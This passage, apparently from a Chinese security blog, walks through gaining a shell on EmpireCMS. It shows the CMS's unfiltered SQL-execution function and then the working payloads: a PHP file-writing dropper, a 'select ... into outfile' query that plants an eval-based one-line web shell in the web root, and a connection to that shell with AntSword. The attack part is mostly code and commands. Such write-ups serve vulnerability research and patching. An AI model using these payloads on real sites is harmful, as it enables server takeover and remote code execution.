 ```
//替换表前缀function RepSqlTbpre($sql){    global $dbtbpre;    $sql=str_replace('[!db.pre!]',$dbtbpre,$sql);    return $sql;}
```

转到定义 DoRunQuery，对 $query 进行处理。

对 $sql 参数只做了去除空格、以; 分隔然后遍历, 没有做别的限制和过滤, 导致可以执行恶意的 sql 语句

```
//运行SQLfunction DoRunQuery($sql){    global $empire;    $sql=str_replace("\r","\n",$sql);    $ret=array();    $num=0;    foreach(explode(";\n",trim($sql)) as $query)    {        $queries=explode("\n",trim($query));        foreach($queries as $query)        {            $ret[$num].=$query[0]=='#'||$query[0].$query[1]=='--'?'':$query;        }        $num++;    }    unset($sql);    foreach($ret as $query)    {        $query=trim($query);        if($query)        {            $empire->query($query);        }    }}
```

### payload

用 select ... into outfile 语句写入 php 一句话木马，但是这里需要知道存放的绝对路径，这里可以使用一个 phpinfo() 用第一种方法传上去

```
<?php file_put_contents("getshell.php","<?php phpinfo();?>");?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOiaTdEaIiaHkFq2UJ3GWK84F1PcItdA3SLe0QgSYfeWOao8FeYXFibqCjw/640?wx_fmt=png)

访问即可打出 phpinfo

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOfFoBzcPFsD4vcMhEDicfNVqt0Ylw7oqgMBibVOke8CQGhtoWmom6sXjA/640?wx_fmt=png)

这里只是找到了 php 的绝对路径，还不是 web 所存储的路径，这时候查看源代码搜索 DOCUMENT_ROOT 查询网站所处的绝对路径

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOhHmfhu6QmH8ic3KWV2s9K7fO0icwyXOIaUMZByhB0adwZfs9NBSfAf1g/640?wx_fmt=png)

用 select ... into outfile 语句写入 php 一句话木马

```
select '<?php @eval($_POST[LEOGG])?>' into outfile 'C:/phpStudy/PHPTutorial/WWW/EmpireCMS/e/admin/Get.php'
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOAdmLa6Acc5jdibTWperf6ia3iawLia2stQGicl1gLusrKuawSE4Td7GzjVA/640?wx_fmt=png)

看到上传已经成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOTtqfqVnlP7oJXSn4RkezWibeWONicnkRNnp8eAKI8giaMofvAZXhHs5FA/640?wx_fmt=png)

访问一下是存在的

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOQmvqLZa9A7yLReialSO8eotxGzD77WB9vJHzmbb9X9TL9MXKKYSVFPg/640?wx_fmt=png)

直接上蚁剑连接即可

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOnPwblP1NrJss1YOVsDeC6OqHIudwR8ib0iaficic3ibq7bsCmBxAoibic0iccQ/640?wx_fmt=png)
